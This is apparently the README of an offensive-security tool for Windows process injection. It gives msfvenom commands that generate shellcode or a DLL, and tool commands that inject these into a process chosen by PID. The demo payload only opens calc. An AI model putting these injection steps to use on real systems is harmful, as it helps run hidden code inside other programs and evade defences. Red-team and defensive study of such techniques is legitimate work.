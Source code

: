 # ProcessInjection

----

The program is designed to perform process injection.
Currently the tool supports 2 process injection techniques.

	1) Vanila Process Injection
	2) DLL Injection

Vanila Process Injection
Currently the program accepts shellcode in 3 formats 

	1) base64
	2) hex
	3) C

### Command Line Usage

	Generating shellcode in base64 format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" | base64
	ProcessInjection.exe /pid:123 /path:""C:\Users\User\Desktop\shellcode.txt"" /f:base64 /t:1

	Generating shellcode in hex format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" -f hex
	ProcessInjection.exe /pid:123 /path:""C:\Users\User\Desktop\shellcode.txt"" /f:hex /t:1

	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" -f c
	ProcessInjection.exe /pid:123 /path:""C:\Users\User\Desktop\shellcode.txt"" /f:c /t:1

	DLL Injection
	Generating DLL and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" -f dll > Desktop/calc.dll
	ProcessInjection.exe /pid:123 /path:""C:\Users\User\Desktop\calc.dll"" /t:2

### Blog Post

[https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html](https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html)
[https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html](https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html)
